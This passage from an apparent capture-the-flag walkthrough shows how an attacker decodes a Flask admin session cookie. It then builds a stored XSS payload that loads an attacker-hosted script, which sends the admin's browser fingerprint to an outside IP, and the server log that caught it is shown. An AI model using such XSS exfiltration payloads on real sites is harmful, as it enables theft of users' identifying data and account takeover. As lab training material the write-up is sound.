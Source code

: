     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
    <title>Redirecting...</title>
    <h1>Redirecting...</h1>
    <p>You should be redirected automatically to target URL: <a href="/admin">/admin</a>.  If not click the link.



It decodes with
[flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager):



    oxdf@hacky$ flask_session_cookie_manager3.py decode -c eyJ1c2VyX2lkIjoiYWRtaW4ifQ.YYUKiQ.ZEiAGV_kKNLV_tcVFa1ezMrMqbk
    b'{"user_id":"admin"}'



This cookie from the XSS is not that, but something different. I can't
explain it right now, but it will be valuable later.

#### Get Fingerprint

What I really need is the admin's browser fingerprint. I'll write an XSS
payload to capture that. I'll have the page include the `login.js`
JavaScript that calculates the fingerprints. Knowing I have access to
that, I'll update `xss.js` to:



    var req = new XMLHttpRequest();
    req.open("GET", "http://10.10.14.6/?" + getFingerPrintID(), false)
    req.send();



I'll log in with two blocks:
`<script src="http://10.10.11.127:8080/resources/js/login.js"></script><script src="http://10.10.14.6/xss.js"></script>`.



    <script src="http://10.129.9:8080/resources/js/login.js"></script><script src="http://10.10.14.6/xss.js"></script>



One the next check, I get what looks like a fingerprint:



    10.10.11.127 - - [05/Dec/2021 09:02:55] "GET /xss.js HTTP/1.1" 200 -
    10.10.11.127 - - [05/Dec/2021 09:02:55] "GET /?962f4a03aa7ebc0515734cf398b0ccd6 HTTP/1.1" 200 -



I can confirm my guess above about the fingerprints being hashed before
they are stored in the DB:



    oxdf@hacky$ echo -n "962f4a03aa7ebc0515734cf398b0ccd6" | sha256sum 
    7ef52c251f8044cb187013992891d0e58ce9194de7f535b1b4fa6bbfe08678f6  -

